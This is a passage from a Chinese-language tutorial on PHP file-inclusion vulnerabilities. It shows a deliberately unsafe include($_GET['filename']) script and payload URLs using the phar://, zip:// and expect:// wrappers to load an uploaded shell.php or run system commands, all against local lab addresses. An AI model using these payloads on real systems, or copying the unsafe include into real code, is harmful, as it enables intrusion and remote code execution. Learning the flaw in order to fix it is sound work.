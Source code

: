 　　### Payload:http://127.0.0.1/test.php?filename=phar://xiaohua.jpg/xiaohua.txt

 



### 6、zip://伪协议

zip://伪协议和phar://伪协议在原理上类似，用法不一样

利用环境

```
PHP>5.3.0
Allow_url_include=on
Allow_url_fopen=on
```

示例代码:

```
<?php
  $filename=$_GET['filename'];
  include($filename);
?>
```

用法:

```
?file=zip://[压缩文件绝对路径]#[压缩文件内的子文件名]
Eg:zip://xxx.png#shell.php
```

Payload: 

```
http://192.168.1.110/test.php?filename=zip//shell.png:shell.php
```

新建xiaohua.txt里面包含恶意代码压缩为xiaohua.zip 或者压缩完改后缀上传 然后执行

Payload:

```
http://127.0.0.1/test.php?filename=zip://C:\phpStudy\PHPTutorial\WWW\xiaohua.zip%23xiaohua.txt
```

### 7、expect://伪协议

expect://伪协议主要用来执行系统命令，但是需要安装扩展

用法:

```
?file=expect://ls
```

# 七、文件包含漏洞修复
